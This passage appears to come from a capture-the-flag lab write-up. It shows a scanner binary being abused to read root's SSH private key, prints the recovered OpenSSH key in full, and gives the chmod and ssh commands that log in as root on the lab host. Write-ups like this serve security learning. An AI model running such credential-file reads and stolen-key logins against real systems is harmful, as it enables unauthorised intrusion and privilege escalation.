 we essentially decode the first byte of the file and then by decoding that, we can decode the next and next until length is maxed or response is none from get_next_char() 

so because /opt/scanner/scanner can read all files, lets read the root ssh priv key and then from kali ssh in as root and pwn:
```
python3 ./exploit.py /root/.ssh/id_rsa
```

now i see this in oxdf's writeup but im under the assumption this is inferred that .ssh and the id_rsa is there due to port 22 being open... nonetheless it works :p

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
0LZdhfMuJsJsFLhZufADwPVRK1B0oMjcnljhUuVvYJtm8Ig/8fC9ZEcycF69E+nBAiDuUm
kDAhdj0ilD63EbLof4rQmBuYUQPy/KMUwGujCUBQKw3bXdOMs/jq6n8bK7ERcHIEx6uTdw
gE6WlJQhgAp6hT7CiINq34Z2CFd9t2x1o24+JOAQj9JCubRa1fOMFs8OqEBiGQHmOIjmUj
7x17Ygwfhs4O8AQDvjhizWop/7Njg7Xm7ouxzoXdAAAFiJKKGvOSihrzAAAAB3NzaC1yc2
EAAAGBAOcjLoj2lj6+j9BmIlIuRJ6g/EDjPQe4JtpUx8JQOxTMPef8MvCVtx6hDGK1kjaV
9h6m78Z4TgQlv7sCjGxW+CzyPhM0enh6+bxuN/BKHhpixQb4YHueFpE70Mnb5OsasY8qYt
z4rypyNhpvgVs3DIupByPjSw1FZ+2jbYQSIPTsiFcKey15d3IFK1jOErb2GWchqSExUf9S
o2gkIyw57IWTuzqzPzy1ncoqatsmbTaAee5L82z0aV7uwDWzPMFd3MpPzmbdC2XYXzLibC
bBS4WbnwA8D1UStQdKDI3J5Y4VLlb2CbZvCIP/HwvWRHMnBevRPpwQIg7lJpAwIXY9IpQ+
txGy6H+K0JgbmFED8vyjFMBrowlAUCsN213TjLP46up/GyuxEXByBMerk3cIBOlpSUIYAK
eoU+woiDat+GdghXfbdsdaNuPiTgEI/SQrm0WtXzjBbPDqhAYhkB5jiI5lI+8de2IMH4bO
DvAEA744Ys1qKf+zY4O15u6Lsc6F3QAAAAMBAAEAAAGABGD0S8gMhE97LUn3pC7RtUXPky
tRSuqx1VWHu9yyvdWS5g8iToOVLQ/RsP+hFga+jqNmRZBRlz6foWHIByTMcOeKH8/qjD4O
9wM8ho4U5pzD5q2nM3hR4G1g0Q4o8EyrzygQ27OCkZwi/idQhnz/8EsvtWRj/D8G6ME9lo
pHlKdz4fg/tj0UmcGgA4yF3YopSyM5XCv3xac+YFjwHKSgegHyNe3se9BlMJqfz+gfgTz3
8l9LrLiVoKS6JsCvEDe6HGSvyyG9eCg1mQ6J9EkaN2q0uKN35T5siVinK9FtvkNGbCEzFC
PknyAdy792vSIuJrmdKhvRTEUwvntZGXrKtwnf81SX/ZMDRJYqgCQyf5vnUtjKznvohz2R
0i4lakvtXQYC/NNc1QccjTL2NID4nSOhLH2wYzZhKku1vlRmK13HP5BRS0Jus8ScVaYaIS
bEDknHVWHFWndkuQSG2EX9a2auy7oTVCSu7bUXFnottatOxo1atrasNOWcaNkRgdehAAAA
wQDUQfNZuVgdYWS0iJYoyXUNSJAmzFBGxAv3EpKMliTlb/LJlKSCTTttuN7NLHpNWpn92S
pNDghhIYENKoOUUXBgb26gtg1qwzZQGsYy8JLLwgA7g4RF3VD2lGCT377lMD9xv3bhYHPl
lo0L7jaj6PiWKD8Aw0StANo4vOv9bS6cjEUyTl8QM05zTiaFk/UoG3LxoIDT6Vi8wY7hIB
AhDZ6Tm44Mf+XRnBM7AmZqsYh8nw++rhFdr9d39pYaFgok9DcAAADBAO1D0v0/2a2XO4DT
AZdPSERYVIF2W5TH1Atdr37g7i7zrWZxltO5rrAt6DJ79W2laZ9B1Kus1EiXNYkVUZIarx
Yc6Mr5lQ1CSpl0a+OwyJK3Rnh5VZmJQvK0sicM9MyFWGfy7cXCKEFZuinhS4DPBCRSpNBa
zv25Fap0Whav4yqU7BsG2S/mokLGkQ9MVyFpbnrVcnNrwDLd2/whZoENYsiKQSWIFlx8Gd
uCNB7UAUZ7mYFdcDBAJ6uQvPFDdphWPQAAAMEA+WN+VN/TVcfYSYCFiSezNN2xAXCBkkQZ
X7kpdtTupr+gYhL6gv/A5mCOSvv1BLgEl0A05BeWiv7FOkNX5BMR94/NWOlS1Z3T0p+mbj
D7F0nauYkSG+eLwFAd9K/kcdxTuUlwvmPvQiNg70Z142bt1tKN8b3WbttB3sGq39jder8p
nhPKs4TzMzb0gvZGGVZyjqX68coFz3k1nAb5hRS5Q+P6y/XxmdBB4TEHqSQtQ4PoqDj2IP
DVJTokldQ0d4ghAAAAD3Jvb3RAaW50ZW50aW9ucwECAw==
-----END OPENSSH PRIVATE KEY-----
```

back on kali just save this key as root_id_rsa and ssh in:
first when dealing with priv keys always have to:
```
chmod 600 root_id_rsa
```
or will prompt you with password... once done:
```
ssh -i root_id_rsa root@10.10.11.220
```
and:
